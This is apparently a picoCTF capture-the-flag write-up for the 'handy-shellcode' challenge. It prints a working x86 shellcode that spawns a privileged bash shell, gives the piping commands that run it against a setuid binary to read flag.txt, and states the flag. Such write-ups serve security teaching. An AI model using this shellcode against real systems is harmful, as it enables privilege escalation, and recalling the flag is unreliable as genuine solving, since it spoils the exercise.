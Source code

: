 # handy-shellcode
This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

## Hint
You might be able to find some good shellcode online.

## Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which we usually have to execute ourselves. However, the challenge does this for us in this line of code:
```((void (*)())buf)();```
This means that the program will treat that address in memory as a series of opcodes and run them.
Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. This shellcode will run a shell for us as the root user, since we are running a setuid binary, with permissions to also view the files in the directory, thus we can read flag.txt. Write this shellcode to a file in the home directory, and `cat` out the contents of that file, with a tack before the pipe to keep the stdin pipe open.
```bash
python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80') > ~/shellcode.txt
cat ~/shellcode.txt - | ./vuln
ls
cat flag.txt
```

## Details
Completed: *During challenge*  
Points: **50**  
Done by: Cyril  
Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
